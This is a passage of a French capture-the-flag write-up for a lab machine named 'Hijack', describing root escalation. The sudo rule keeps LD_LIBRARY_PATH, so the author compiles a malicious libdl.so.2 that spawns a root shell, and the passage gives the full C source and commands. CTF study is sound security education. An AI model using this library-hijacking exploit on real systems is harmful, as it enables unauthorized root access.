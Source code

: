 ## Root 
```
rick@Hijack:~$ sudo -l
[sudo] password for rick: N3[...REDACTED...]Up

Matching Defaults entries for rick on Hijack:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_LIBRARY_PATH

User rick may run the following commands on Hijack:
    (root) /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```
J'ai peut-être trouver un moyen avec LD_LIBRARY_PATH.

*LD_LIBRARY_PATH est une variable d'environnement prédéfinit sur les systèmes Linux/Unix qui indique au linker où trouver les librairies partagées*

Avec la commande **ldd**, on va regarder les libs utilisé par apache2:
```
rick@Hijack:~$ ldd /usr/sbin/apache2
ldd /usr/sbin/apache2
        linux-vdso.so.1 =>  (0x00007ffc27dec000)
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f2721334000)
        libaprutil-1.so.0 => /usr/lib/x86_64-linux-gnu/libaprutil-1.so.0 (0x00007f272110d000)
        libapr-1.so.0 => /usr/lib/x86_64-linux-gnu/libapr-1.so.0 (0x00007f2720edb000)
        libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f2720cbe000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f27208f4000)
        libcrypt.so.1 => /lib/x86_64-linux-gnu/libcrypt.so.1 (0x00007f27206bc000)
        libexpat.so.1 => /lib/x86_64-linux-gnu/libexpat.so.1 (0x00007f2720493000)
        libuuid.so.1 => /lib/x86_64-linux-gnu/libuuid.so.1 (0x00007f272028e000)
        libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f272008a000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f2721849000)
```
On va dans le dossier **/tmp** puis on créer un shell en C:
```shell.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```
Ensuite, on le compile:
```
rick@Hijack:/tmp$ gcc -fPIC -shared -o libdl.so.2 shell.c -nostartfiles
```
Voila, notre shell est créer est ce nomme **libdl.so.2**
Ensuite, on va executer **/usr/sbin/apache2** mais en lui indiquant un nouveau path pour les libs:
```
rick@Hijack:/tmp$ sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```
et nous voila root :
```
root@Hijack:/tmp# cat /root/root.txt

██╗░░██╗██╗░░░░░██╗░█████╗░░█████╗░██╗░░██╗
██║░░██║██║░░░░░██║██╔══██╗██╔══██╗██║░██╔╝
███████║██║░░░░░██║███████║██║░░╚═╝█████═╝░
██╔══██║██║██╗░░██║██╔══██║██║░░██╗██╔═██╗░
██║░░██║██║╚█████╔╝██║░░██║╚█████╔╝██║░╚██╗
```